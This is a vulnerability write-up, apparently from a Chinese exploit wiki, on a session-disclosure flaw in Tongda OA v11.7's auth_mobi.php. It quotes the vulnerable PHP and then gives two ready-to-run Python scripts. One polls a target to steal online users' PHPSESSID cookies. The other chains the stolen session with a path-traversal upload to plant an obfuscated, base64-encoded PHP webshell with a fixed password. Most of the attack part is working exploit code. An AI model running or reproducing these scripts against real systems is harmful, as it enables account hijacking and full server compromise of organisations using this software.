





通达OA v11.7 auth_mobi.php 在线用户登录漏洞¶
漏洞描述¶
通达OA v11.7 中存在某接口查询在线用户，当用户在线时会返回 PHPSESSION使其可登录后台系统
漏洞影响¶
通达OA < v11.7
环境搭建¶
下载后按步骤安装即可
漏洞复现¶
漏洞有关文件 MYOA\webroot\mobile\auth_mobi.php
<?php
function relogin()
{
echo _('RELOGIN');
exit;
}
ob_start();
include_once 'inc/session.php';
include_once 'inc/conn.php';
include_once 'inc/utility.php';
if ($isAvatar == '1' && $uid != '' && $P_VER != '') {
$sql = 'SELECT SID FROM user_online WHERE UID = \'' . $uid . '\' and CLIENT = \'' . $P_VER . '\'';
$cursor = exequery(TD::conn(), $sql);
if ($row = mysql_fetch_array($cursor)) {
$P = $row['SID'];
}
}
if ($P == '') {
$P = $_COOKIE['PHPSESSID'];
if ($P == '') {
relogin();
exit;
}
}
if (preg_match('/[^a-z0-9;]+/i', $P)) {
echo _('非法参数');
exit;
}
if (strpos($P, ';') !== false) {
$MY_ARRAY = explode(';', $P);
$P = trim($MY_ARRAY[1]);
}
session_id($P);
session_start();
session_write_close();
if ($_SESSION['LOGIN_USER_ID'] == '' || $_SESSION['LOGIN_UID'] == '') {
relogin();
}
在执行的 SQL语句中
$sql = 'SELECT SID FROM user_online WHERE UID = \'' . $uid . '\' and CLIENT = \'' . $P_VER . '\'';

简单阅读PHP源码可以知道 此SQL语句会查询用户是否在线，如在线返回此用户 Session ID

将返回的 Set-Cookie 中的Cookie参数值使用于登录Cookie
访问目标后台 http://xxx.xxx.xxx.xxx/general/
当目标离线时则访问漏洞页面则会出现如下图
遍历uid也可以获取其他用户权限，可能权限较低

通过此思路可以持续发包监控此页面来获取在线用户的Cookie
漏洞POC¶
5秒一次测试用户是否在线
import requests
import sys
import random
import re
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning
def title():
print('+------------------------------------------')
print('+ \033[34mPOC_Des: http://wiki.peiqi.tech \033[0m')
print('+ \033[34mGithub : https://github.com/PeiQi0 \033[0m')
print('+ \033[34m公众号 : PeiQi文库 \033[0m')
print('+ \033[34mVersion: 通达OA 11.7 \033[0m')
print('+ \033[36m使用格式: python3 poc.py \033[0m')
print('+ \033[36mUrl >>> http://xxx.xxx.xxx.xxx \033[0m')
print('+------------------------------------------')
def POC_1(target_url):
vuln_url = target_url + "/mobile/auth_mobi.php?isAvatar=1&uid=1&P_VER=0"
headers = {
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
}
try:
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
if "RELOGIN" in response.text and response.status_code == 200:
print("\033[31m[x] 目标用户为下线状态 --- {}\033[0m".format(time.asctime( time.localtime(time.time()))))
elif response.status_code == 200 and response.text == "":
PHPSESSION = re.findall(r'PHPSESSID=(.*?);', str(response.headers))
print("\033[32m[o] 用户上线 PHPSESSION: {} --- {}\033[0m".format(PHPSESSION[0] ,time.asctime(time.localtime(time.time()))))
else:
print("\033[31m[x] 请求失败，目标可能不存在漏洞")
sys.exit(0)
except Exception as e:
print("\033[31m[x] 请求失败 \033[0m", e)
if __name__ == '__main__':
title()
target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
while True:
POC_1(target_url)
time.sleep(5)

于 2021-3-11 添加进一步利用POC
配合 < v11.8 的 命令执行 当监控到用户上线控制服务器
import requests
import sys
import random
import re
import base64
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning
def title():
print('+------------------------------------------')
print('+ \033[34mPOC_Des: http://wiki.peiqi.tech \033[0m')
print('+ \033[34mVersion: 通达OA 11.7 \033[0m')
print('+ \033[36m使用格式: python3 poc.py \033[0m')
print('+ \033[36mUrl >>> http://xxx.xxx.xxx.xxx \033[0m')
print('+------------------------------------------')
def POC_0(target_url):
vuln_url = target_url + "/mobile/auth_mobi.php?isAvatar=1&uid=1&P_VER=0"
headers = {
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
}
try:
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
if "RELOGIN" in response.text and response.status_code == 200:
print("\033[31m[x] 目标用户为下线状态 --- {}\033[0m".format(time.asctime( time.localtime(time.time()))))
elif response.status_code == 200 and response.text == "":
Cookie = re.findall(r'PHPSESSID=(.*?);', str(response.headers))
print("\033[32m[o] 用户上线 PHPSESSION: {} --- {}\033[0m".format(Cookie[0] ,time.asctime(time.localtime(time.time()))))
Cookie = "PHPSESSID={};USER_NAME_COOKIE=admin; OA_USER_ID=admin".format(Cookie[0])
POC_1(target_url, Cookie)
else:
print("\033[31m[x] 请求失败，目标可能不存在漏洞")
sys.exit(0)
except Exception as e:
print("\033[31m[x] 请求失败 \033[0m", e)
def POC_1(target_url, Cookie):
vuln_url = target_url + "/general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop\workshop/report/attachment-remark/.user"
headers = {
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
"Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
"Accept-Encoding": "gzip, deflate",
"Content-Type": "multipart/form-data; boundary=---------------------------17518323986548992951984057104",
"Connection": "close",
"Cookie": Cookie,
"Upgrade-Insecure-Requests": "1",
}
data = base64.b64decode("LS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0xNzUxODMyMzk4NjU0ODk5Mjk1MTk4NDA1NzEwNApDb250ZW50LURpc3Bvc2l0aW9uOiBmb3JtLWRhdGE7IG5hbWU9IkFUVEFDSE1FTlQiOyBmaWxlbmFtZT0idGVzdC5pbmkiCkNvbnRlbnQtVHlwZTogdGV4dC9wbGFpbgoKYXV0b19wcmVwZW5kX2ZpbGU9dGVzdC5sb2cKLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0xNzUxODMyMzk4NjU0ODk5Mjk1MTk4NDA1NzEwNApDb250ZW50LURpc3Bvc2l0aW9uOiBmb3JtLWRhdGE7IG5hbWU9InN1Ym1pdCIKCuaPkOS6pAotLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLTE3NTE4MzIzOTg2NTQ4OTkyOTUxOTg0MDU3MTA0LS0=")
try:
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
print("\033[36m[o] 正在请求 {}/general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop/workshop/report/attachment-remark/.user \033[0m".format(target_url))
if "档案已保存" in response.text and response.status_code == 200:
print("\033[32m[o] 目标 {} 成功上传.user.ini文件, \033[0m".format(target_url))
POC_2(target_url, Cookie)
else:
print("\033[31m[x] 目标 {} 上传.user.ini文件失败\033[0m".format(target_url))
sys.exit(0)
except Exception as e:
print("\033[31m[x] 请求失败 \033[0m", e)
def POC_2(target_url, Cookie):
vuln_url = target_url + "/general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop\workshop/report/attachment-remark/test"
headers = {
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
"Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
"Accept-Encoding": "gzip, deflate",
"Content-Type": "multipart/form-data; boundary=---------------------------17518323986548992951984057104",
"Connection": "close",
"Cookie": Cookie,
"Upgrade-Insecure-Requests": "1",
}
data = base64.b64decode("LS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0xNzUxODMyMzk4NjU0ODk5Mjk1MTk4NDA1NzEwNApDb250ZW50LURpc3Bvc2l0aW9uOiBmb3JtLWRhdGE7IG5hbWU9IkFUVEFDSE1FTlQiOyBmaWxlbmFtZT0idGVzdC5sb2ciCkNvbnRlbnQtVHlwZTogdGV4dC9wbGFpbgoKPD9waHAgCmVjaG8gInRlc3RfV2lraSI7CiRwemtCPWNyZWF0ZV9mdW5jdGlvbihjaHIoMDEwMTc1MC8wMTY1MikuYmFzZTY0X2RlY29kZSgnY3c9PScpLmJhc2U2NF9kZWNvZGUoJ2J3PT0nKS5jaHIoOTkwODEvOTA5KS5jaHIoMDEwMjUtMDY2MCksY2hyKDA1MTctMDM1MikuY2hyKDB4MzQzLTB4MmNkKS5iYXNlNjRfZGVjb2RlKCdZUT09Jykuc3RyX3JvdDEzKCd5JykuYmFzZTY0X2RlY29kZSgnS0E9PScpLmJhc2U2NF9kZWNvZGUoJ0pBPT0nKS5jaHIoNDQ0LTMyOSkuYmFzZTY0X2RlY29kZSgnYnc9PScpLmNocig1OTctNDg4KS5jaHIoMHgxOWYtMHgxM2EpLmNocigyMTktMTc4KS5iYXNlNjRfZGVjb2RlKCdPdz09JykpOyRwemtCKGJhc2U2NF9kZWNvZGUoJ05EZzFOJy4nemMyTzAnLidCbGRrRicuJ3NLQ1JmJy4nJy5jaHIoODIxMTAvOTY2KS5iYXNlNjRfZGVjb2RlKCdSUT09Jykuc3RyX3JvdDEzKCc5JykuY2hyKDAxNTUwNjQvMDEyMzEpLmJhc2U2NF9kZWNvZGUoJ1ZnPT0nKS4nJy4nJy5zdHJfcm90MTMoJ1MnKS5iYXNlNjRfZGVjb2RlKCdkQT09JykuYmFzZTY0X2RlY29kZSgnTUE9PScpLmNocig2MDc1MC82NzUpLmNocigwMTUwNy0wMTM1NykuJycuJ04wWFNrJy4nN01UUTEnLidOek15TycuJ0RzPScuJycpKTs/PgotLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLTE3NTE4MzIzOTg2NTQ4OTkyOTUxOTg0MDU3MTA0CkNvbnRlbnQtRGlzcG9zaXRpb246IGZvcm0tZGF0YTsgbmFtZT0ic3VibWl0IgoK5o+Q5LqkCi0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tMTc1MTgzMjM5ODY1NDg5OTI5NTE5ODQwNTcxMDQtLQo=")
try:
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
print("\033[36m[o] 正在请求 {}/general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop/workshop/report/attachment-remark/test \033[0m".format(target_url))
if "档案已保存" in response.text and response.status_code == 200:
print("\033[32m[o] 目标 {} 成功上传 test.log 文件, \033[0m".format(target_url))
POC_3(target_url, Cookie)
else:
print("\033[31m[x] 目标 {} 上传 test.log 文件失败\033[0m".format(target_url))
sys.exit(0)
except Exception as e:
print("\033[31m[x] 请求失败 \033[0m", e)
def POC_3(target_url, Cookie):
vuln_url = target_url + "/general/reportshop/workshop/report/attachment-remark/form.inc.php?"
headers = {
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
"Cookie": Cookie,
}
try:
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
print("\033[36m[o] 正在请求 {}/general/reportshop/workshop/report/attachment-remark/form.inc.php? \033[0m".format(target_url))
if "test_Wiki" in response.text and response.status_code == 200:
print("\033[32m[o] 目标 {} 存在漏洞，响应中包含 test_Wiki \033[0m".format(target_url))
print("\033[32m[o] 成功上传蚁剑木马 密码为: test \n[o] webshell路径: {}/general/reportshop/workshop/report/attachment-remark/form.inc.php?\033[0m".format(target_url))
sys.exit(0)
else:
print("\033[31m[x] 目标 {} 不存在漏洞，响应中不包含 test_Wiki\033[0m".format(target_url))
sys.exit(0)
except Exception as e:
print("\033[31m[x] 请求失败 \033[0m", e)
if __name__ == '__main__':
title()
target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
while True:
POC_0(target_url)
time.sleep(5)
